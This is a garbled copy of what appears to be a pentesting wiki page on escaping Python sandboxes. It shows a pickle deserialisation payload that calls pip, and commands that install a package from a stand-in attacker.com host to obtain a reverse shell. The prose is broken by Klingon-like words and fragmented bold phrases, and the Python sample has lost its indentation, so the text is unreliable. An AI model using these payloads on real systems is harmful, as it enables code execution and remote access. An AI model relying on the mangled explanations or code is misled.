 Python **libraries** **load** **current directory** **first** (the following command will print where is python loading modules from): `python3 -c 'import sys; print(sys.path)'`

![](<../../../.gitbook/assets/image (552).png>)

## Bypass pickle sandbox with the default installed python packages

### Default packages

**list of pre-installed** **packages** **yIqaw** **'ej** [https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html](https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html)\
**pickle** **python env** **import arbitrary libraries** **installed** **system**.\
**Example**, **pickle**, **loaded**, **pip library** **use** **bIghel**:
```python
#Note that here we are importing the pip library so the pickle is created correctly
#however, the victim doesn't even need to have the library installed to execute it
#the library is going to be loaded automatically

import pickle, os, base64, pip
class P(object):
def __reduce__(self):
return (pip.main,(["list"],))

print(base64.b64encode(pickle.dumps(P(), protocol=0)))
```
For more information about how pickle works check this: [https://checkoway.net/musings/pickle/](https://checkoway.net/musings/pickle/)

### Pip package

Trick shared by **@isHaacK**

If you have access to `pip` or `pip.main()` you can install an arbitrary package and obtain a reverse shell calling:
```bash
pip install http://attacker.com/Rerverse.tar.gz
pip.main(["install", "http://attacker.com/Rerverse.tar.gz"])
```
**bypass-python-sandboxes/README.md**

---
